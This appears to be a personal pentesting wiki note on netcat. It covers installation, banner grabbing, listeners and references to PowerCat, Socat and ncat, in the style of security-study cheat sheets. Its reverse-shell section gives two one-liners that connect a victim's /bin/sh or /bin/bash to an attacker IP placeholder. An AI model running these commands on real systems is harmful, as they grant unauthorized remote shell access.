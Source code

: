 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc) or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

> ncat is the Nmap version of netcat, they are different and have different features.
## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

We can also use `curl -IL [url]` for banner grabbing web server headers.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```bash
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]
```
- *-e* : binds a shell to a port

Without *-e*:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [Port] > /tmp/f
```

### Create a listener
```
nc -lvnp [Port]
```
- *-l* : specifies to listen
- *-v* : more verbose
- *-n* : disables DNS resolution and uses just IPs, to speed up the connection
- *-p* : specifies the source port

![[Misc/File Transfer#Using NetCat & Ncat|File Transfer]]